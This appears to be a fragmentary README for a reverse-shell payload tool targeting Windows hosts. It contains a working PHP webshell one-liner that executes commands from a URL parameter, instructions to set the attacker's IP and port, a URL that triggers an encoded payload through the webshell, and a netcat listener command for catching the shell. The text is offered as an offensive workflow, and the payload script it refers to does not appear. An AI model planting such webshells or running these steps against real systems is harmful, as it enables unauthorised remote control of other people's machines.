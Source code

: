 
### 1. **Set Up a Webshell on the Target**

Ensure the target has a vulnerable PHP webshell that can execute commands through a URL parameter. Example:

```php
<?php echo "<pre>" . shell_exec($_GET["cmd"]) . "</pre>"; ?>
```

This PHP script will execute commands passed in the `cmd` URL parameter.

### 2. **Adjust IP and Port in the Payload**

Modify the reverse shell payload to use your **attacker's IP** (`LHOST`) and **chosen port** (`LPORT`).


After running the script, you'll get the **URL-encoded** payload.

### 3. **Execute the Payload via Webshell**

Once the payload is URL-encoded, execute it via the vulnerable webshell:

```bash
http://target.com/uploads/example.php?cmd=ENCODED_PAYLOAD
```

### 4. **Start Netcat Listener**

Before triggering the reverse shell, set up a listener on your attacking machine using Netcat:

```bash
nc -lvnp 4444

## TARGET:
- **Windows Hosts** (Tested on Windows 10 and Windows Server)

